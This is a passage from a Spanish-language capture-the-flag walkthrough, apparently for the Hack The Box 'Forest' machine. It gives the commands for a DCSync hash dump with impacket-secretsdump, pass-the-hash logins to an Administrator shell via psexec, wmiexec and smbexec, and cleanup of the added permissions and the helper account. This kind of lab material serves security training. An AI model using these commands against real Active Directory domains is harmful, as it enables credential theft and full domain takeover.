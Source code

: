 
## 8) DCSync con `secretsdump` (Kali)

**zsh tip:** las contraseñas con `!` rompen el historial. Usa variables o comillas simples.

```bash
PASS='P@ssw0rd!'        # si usaste tempUser
impacket-secretsdump "htb.local/tempUser:${PASS}@${TARGET}" -dc-ip "$TARGET" -just-dc

# Alternativa con svc-alfresco si diste DCSync a ese usuario:
# impacket-secretsdump "htb.local/svc-alfresco:s3rvice@${TARGET}" -dc-ip "$TARGET" -just-dc

# Si hay problemas de resolución/RPC, añade también:
#   -target-ip "$TARGET"
```
**Salida esperada:** hashes **LM:NT**. Guarda el **NTLM** de `Administrator` (el **segundo** hash).

---

## 9) Pass‑the‑Hash → Admin shell

```bash
# psexec (crea servicio temporal, suele darte SYSTEM)
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:NTLM_ADMIN_HASH Administrator@"$TARGET"

# wmiexec (fileless, por si psexec está restringido)
impacket-wmiexec -hashes :NTLM_ADMIN_HASH Administrator@"$TARGET"

# smbexec (otra alternativa “fileless”)
impacket-smbexec -hashes :NTLM_ADMIN_HASH Administrator@"$TARGET"
```
Dentro de la sesión:
```cmd
whoami
hostname
type C:\Users\Administrator\Desktop\root.txt
```

---

## 10) Limpieza (opcional pero recomendable)

```powershell
$dn="DC=htb,DC=local"

# Quitar ACEs DCSync
dsacls $dn /R "HTB\tempUser"
dsacls $dn /R "HTB\svc-alfresco"

# Salir de EWP y borrar usuario auxiliar
net group "Exchange Windows Permissions" tempUser /del /domain
net group "Exchange Windows Permissions" svc-alfresco /del /domain
net user tempUser /del /domain

# Borrar scripts/PS1 que subiste y restos en C:\Windows\Temp
```

---